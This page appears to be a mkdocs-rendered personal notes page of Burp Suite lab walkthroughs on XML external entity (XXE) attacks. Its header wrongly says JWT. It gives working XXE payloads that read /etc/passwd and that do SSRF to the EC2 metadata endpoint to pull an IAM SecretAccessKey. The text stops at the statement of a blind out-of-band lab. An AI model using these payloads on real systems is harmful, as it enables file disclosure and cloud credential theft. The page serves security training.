

repository: amandaguglieri/hackinglife · page: burpsuite/burpsuite-xxe/index.html · generator: mkdocs

---
title: BurpSuite Labs - Json Web Token jwt
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - burpsuite
  - jwt
---

# BurpSuite Labs - XML External Entity XXE


## Exploiting XXE using external entities to retrieve files

### Enunciation

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

### Solution
 
![xxe](../img/xxe_01.png)


![xxe](../img/xxe_02.png)

```
# Burpsuite solution

1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
    
    `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`
3. Replace the `productId` number with a reference to the external entity: `&xxe;`. The response should contain "Invalid product ID:" followed by the contents of the `/etc/passwd` file.
```

## Exploiting XXE to perform SSRF attacks

### Enunciation

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint.

### Solution

Capture the check stock request:

![xxe](../img/xxe_03.png)

Perfom the data exfiltration chaining xxe y ssrf. The response will display the next folder that needs to be added to the request:

![xxe](../img/xxe_04.png)


![xxe](../img/xxe_05.png)

![xxe](../img/xxe_06.png)


![xxe](../img/xxe_07.png)


![xxe](../img/xxe_08.png)

![xxe](../img/xxe_09.png)

```
# Burpsuite solution
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
    
    `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>`
3. Replace the `productId` number with a reference to the external entity: `&xxe;`. The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name.
4. Iteratively update the URL in the DTD to explore the API until you reach `/latest/meta-data/iam/security-credentials/admin`. This should return JSON containing the `SecretAccessKey`.
```

## Blind XXE with out-of-band interaction

### Enunciation

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
